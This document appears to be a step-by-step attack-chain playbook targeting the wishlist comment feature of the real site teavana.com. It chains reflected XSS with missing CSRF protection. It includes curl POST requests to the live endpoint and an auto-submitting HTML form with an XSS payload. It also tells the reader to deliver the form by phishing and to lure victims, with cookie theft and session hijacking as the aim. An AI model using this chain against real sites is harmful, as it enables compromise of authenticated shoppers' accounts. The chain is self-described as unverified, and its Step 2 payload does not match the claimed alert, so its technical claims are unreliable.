

# Reflected XSS via CSRF Exploitation in Teavana Wishlist Comments

Multi-stage attack chain demonstrating a complete attack workflow exploiting reflected XSS and CSRF on teavana.com's wishlist comment module, leading to arbitrary JavaScript execution in the victim's browser.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for inspecting requests
- Proxy tool like Burp Suite for crafting POST requests

### Target Environment

- Web platform: teavana.com (Demandware/Salesforce Commerce Cloud)
- Required services/ports: HTTPS on port 443
- Network access requirements: Internet access to teavana.com

### Initial Access Requirements

- No credentials needed for discovery, but victim must be authenticated user with a wishlist
- Attacker needs victim's wishlist ID (e.g., via social engineering or prior recon)
- Network position: External, cross-origin access for CSRF

## Detailed Attack Procedures

### Step 1: Identify the Wishlist Comment Endpoint
procedure: [[procedures/Identify-Wishlist-Comment-Endpoint]]

**Objective**: Locate the endpoint used for adding comments to wishlist items on teavana.com.

**Instructions**: Examine network traffic or documentation to identify the POST endpoint for wishlist comments. Use browser developer tools to monitor requests while interacting with the wishlist feature.

**Expected Output**: Confirmation of the endpoint /on/demandware.store/Sites-Teavana-Site/default/Wishlist-Comments/:id where :id is the wishlist item ID.

**Success Indicators**:
- Endpoint identified with parameter wishlistComment
- Sample request observed adding a benign comment

### Step 2: Test for Reflected XSS
procedure: [[procedures/Test-Reflected-XSS-in-Wishlist-Comment]]

**Objective**: Verify if user input in the wishlistComment parameter is reflected unsanitized in the HTML response, allowing JavaScript execution.

**Instructions**: Submit a test payload using a proxy tool. Execute [[commands/post-xss-payload-to-wishlist]] to inject the payload:

```bash
curl -X POST 'https://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/Wishlist-Comments/C1005285074' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'wishlistComment=</textarea>'
```

Observe the response for unsanitized reflection in a textarea element.

**Expected Output**: Response contains the payload reflected as '<textarea maxlength="150" onkeyup="return ismaxlength(this);" id="wishlistComment" name="wishlistComment" cols="60" rows="12"></textarea></textarea>', triggering alert(1).

**Success Indicators**:
- JavaScript executes (e.g., alert popup)
- Payload breaks out of textarea without escaping

### Step 3: Confirm Absence of CSRF Protection
procedure: [[procedures/Confirm-Absence-of-CSRF-Protection]]

**Objective**: Check if the endpoint requires CSRF tokens, enabling cross-origin exploitation.

**Instructions**: Inspect the POST request for any CSRF token parameters. Replay the request from a different origin without tokens using [[commands/normal-post-to-wishlist]]:

```bash
curl -X POST 'https://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/Wishlist-Comments/C1005285074' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'wishlistComment=Test comment'
```

**Expected Output**: Request succeeds without CSRF token, adding the comment.

**Success Indicators**:
- No token required in request or response
- Cross-origin POST accepted

### Step 4: Craft and Deliver CSRF PoC
procedure: [[procedures/Craft-CSRF-POC-for-XSS-Exploitation]]

**Objective**: Create a malicious HTML form to force the victim to submit the XSS payload via CSRF.

**Instructions**: Build an HTML page with a form targeting the endpoint. Use [[commands/csrf-poc-form-for-xss]] to generate and host the PoC:

```html
<html><body><form action="https://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/Wishlist-Comments/C1005285074" method="POST"><input type="hidden" name="wishlistComment" value="&lt;/textarea&gt;&lt;img src=x onerror=alert(1)&gt;"/><input type="submit" value="Submit request"/></form><script>document.forms[0].submit();</script></body></html>
```

Deliver via phishing or malicious site; replace :id with victim's wishlist ID.

**Expected Output**: Form auto-submits, adding the malicious comment to the victim's wishlist.

**Success Indicators**:
- Comment added without user interaction
- Payload stored in backend

### Step 5: Trigger XSS Execution on Victim Side
procedure: [[procedures/Trigger-XSS-Execution-on-Victim]]

**Objective**: Cause the victim to interact with the wishlist, executing the reflected XSS.

**Instructions**: Lure the victim to view or edit their wishlist. Upon clicking 'Edit Comments', the reflected payload executes. No direct command; relies on victim navigation.

**Expected Output**: JavaScript runs in victim's browser, e.g., alert(1), enabling session hijacking or data theft.

**Success Indicators**:
- Alert or other JS effect observed in victim's session
- Potential for further exploitation like cookie theft

## Attack Chain Summary

### Key Achievements

1. Identified vulnerable endpoint without input sanitization
2. Confirmed CSRF absence allowing forced submission
3. Demonstrated XSS execution leading to arbitrary JS in victim context
4. Chained vulnerabilities for drive-by compromise
5. Highlighted impact on authenticated users' sessions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]] JavaScript
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Execution]] Execution
- [[Initial Access]] Initial Access

---

*Last updated: 2023-10-01T00:00:00Z*
